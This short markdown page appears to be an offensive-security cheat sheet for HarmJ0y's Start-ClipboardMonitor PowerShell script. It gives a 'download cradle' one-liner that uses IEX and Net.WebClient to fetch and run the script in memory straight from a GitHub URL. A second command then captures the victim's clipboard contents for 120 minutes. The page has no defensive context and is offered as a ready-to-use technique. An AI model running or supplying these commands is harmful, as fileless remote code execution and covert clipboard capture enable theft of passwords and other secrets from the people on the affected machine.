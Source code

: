 # Scripts

## Start-ClipboardMonitor

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/Misc-PowerShell/master/Start-ClipboardMonitor.ps1')
```

Capture clipboard's content 120 minutes.

```
PS C:\> Start-ClipboardMonitor -CollectionLimit 120
```

---
## References

- [HarmJ0y: Start-ClipboardMonitor](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Start-ClipboardMonitor.ps1)